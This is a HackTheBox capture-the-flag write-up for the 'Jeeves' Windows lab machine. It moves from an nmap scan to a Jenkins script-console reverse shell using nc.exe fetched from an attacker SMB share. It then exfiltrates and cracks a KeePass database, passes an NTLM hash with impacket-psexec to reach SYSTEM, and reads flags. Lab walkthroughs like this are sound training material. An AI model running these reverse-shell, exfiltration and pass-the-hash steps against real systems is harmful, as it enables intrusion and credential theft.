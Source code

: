 ```yaml
---
title: "Jeeves"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Jeeves

![](assets/Pasted%20image%2020250613001628.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.63
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-13 00:16 CEST
Nmap scan report for 10.10.10.63
Host is up (0.041s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows 10 1607 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 11 (86%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Vista or Windows 7 (86%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-06-13T03:17:32
|_  start_date: 2025-06-13T03:16:20
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   40.72 ms 10.10.14.1
2   40.82 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.63 seconds
```

Website is about a web searcher

![](assets/Pasted%20image%2020250613002040.png)

Upon searching, it shows an error image.

![](assets/Pasted%20image%2020250613002156.png)

Port `50000` shows an error and the Jetty version.

![](assets/Pasted%20image%2020250613003426.png)

Using `feroxbuster`, we find `/askjeeves`.

![](assets/Pasted%20image%2020250613003522.png)

`/askjeeves` is a Jenkins instance `2.87`.

![](assets/Pasted%20image%2020250613003625.png)

## Initial Access

We can go to the script console.

![](assets/Pasted%20image%2020250613010454.png)

The easiest way is to put a base64-encoded PowerShell reverse shell.

Or we can also get `nc.exe` from an SMB share and connect back to a port.

```shell
println "\\\\10.10.14.17\\kali\\nc.exe -e cmd 10.10.14.17 443".execute().text
```

Either way,

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49678
whoami
jeeves\kohsuke
```

Get the flag:

```shell
PS C:\users\kohsuke\desktop> type user.txt
e3232272596fb47950d59c4cf1e7066a
```

## Privilege Escalation

There is a KeePass file inside `documents`.

```shell
PS C:\users\kohsuke\documents> ls


    Directory: C:\users\kohsuke\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx  
```

Start an `impacket-smbserver` and copy the file.

```shell
PS C:\users\kohsuke\documents> cp CEH.kdbx \\10.10.14.17\kali
```

With `keepass2john`, get the hash and then with `john` crack it.

```shell
$ keepass2john CEH.kdbx > hash             

$ cat hash      
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

![](assets/Pasted%20image%2020250613011514.png)

Open the file with `keepassxc` or `kpcli`.

![](assets/Pasted%20image%2020250613011759.png)

Get the NTLM hash of backup stuff and pass the hash to enter.

```shell
$ impacket-psexec administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file eXJgnHqs.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service BUPi on 10.10.10.63.....
[*] Starting service BUPi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
c:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

We need to `dir` with alternative data streams using `/R`.

```shell
C:\Users\Administrator\Desktop> dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,640,015,360 bytes free

C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4b615a60648cec41c6ac92530
```
